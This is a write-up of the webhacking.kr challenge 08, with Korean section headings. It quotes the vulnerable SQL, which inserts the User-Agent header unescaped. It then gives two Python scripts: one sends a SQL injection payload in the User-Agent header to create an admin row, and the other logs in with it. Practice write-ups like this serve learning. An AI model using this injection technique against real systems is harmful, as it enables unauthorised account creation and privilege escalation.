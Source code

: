 ================================================================================================================
[webhacking.kr] 08
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="User-Agent: joizel','2.2.2.2','admin');#",arrowhead="normal"];
        step3 -> step2[label="insert into lv0(agent,ip,id) values('joizel','2.2.2.2','admin');#','$ip','guest')",arrowhead="normal"];
    }

|


server 소스 분석
================================================================================================================

- PHP
- GET 파라미터: HTTP_USER_AGENT

.. code-block:: sql

    select id from lv0 where 
    agent='$_SERVER[HTTP_USER_AGENT]'

    insert into lv0(agent,ip,id) 
    values('$_SERVER[HTTP_USER_AGENT]','$ip','guest')

|

사용자 추가
================================================================================================================

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-08/index.php"
    headers = {
        "User-Agent":"joizel','2.2.2.2','admin');#"
    }
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    r = requests.get(url, headers = headers, cookies=cookies, verify=False)

    print r.content

|


================================================================================================================

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-08/index.php"
    headers = {
        "User-Agent":"joizel"
    }
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    r = requests.get(url, headers = headers, cookies=cookies, verify=False)

    print r.content

